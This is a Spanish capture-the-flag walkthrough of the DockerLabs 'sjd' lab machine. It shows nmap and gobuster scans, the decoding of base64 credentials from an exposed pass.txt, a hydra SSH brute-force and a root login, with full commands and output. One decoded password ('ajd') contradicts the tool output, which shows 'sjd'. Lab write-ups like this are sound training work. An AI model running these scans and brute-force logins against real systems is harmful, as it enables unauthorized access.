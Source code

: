 # sjd DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip sjd.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh sjd.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 04:34 EST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e3:6b:e1:c3:e0:14:74:3e:df:a3:f1:d8:64:69:80:50 (ECDSA)
|_  256 17:ce:1a:bb:ef:6d:9e:9d:c2:41:41:0b:0f:82:32:0d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Reparaci\xC3\xB3n de Computadoras SJD
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.75 seconds
```

Vemos una pagina aparentemente normal, por lo que realizaremos un poco de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP> -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/descargas.html       (Status: 200) [Size: 4468]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 6968]
/index1.html          (Status: 200) [Size: 10703]
/pass.txt             (Status: 200) [Size: 42]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un archivo bastante interesante llamado `/pass.txt` y si entramos en el veremos lo siguiente:

```
sjd c2pkCg==
admin YWRtaW4K
root MTk3MQo=
```

Vemos que pueden ser `3` posibles usuarios con sus contraseñas codificadas en `Base64` por lo que haremos lo siguiente:

```
sjd ajd
admin admin
root 1971
```

Asi se veria de forma decodificada.

Por lo que vamos a realizar `fuerza bruta` con la herramienta `hydra`.

## Hydra

> users.txt

```
sjd
admin
root
```

> pass.txt

```
sjd
admin
1971
```

Ahora con `hydra` haremos lo siguiente:

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 05:16:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: sjd   password: sjd
[22][ssh] host: 172.17.0.2   login: root   password: 1971
[22][ssh] host: 172.17.0.2   login: admin   password: admin
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-27 05:16:30
```

Vemos que los `3` usuarios funcionan, pero el que mas nos interesa es el de `root`, por lo que nos conectaremos de la siguiente forma:

## SSH

```shell
ssh root@<IP>
```

Metemos como contraseña `1971` y veremos que estamos dentro como el usuario `root`.

Info:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:VICRoK2N/Zw01oNp8yqG9D8m0AwQbBFQLtb/DY5APT0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
root@d70dc147f847:~# whoami
root
```

Por lo que ya habremos terminado la maquina.
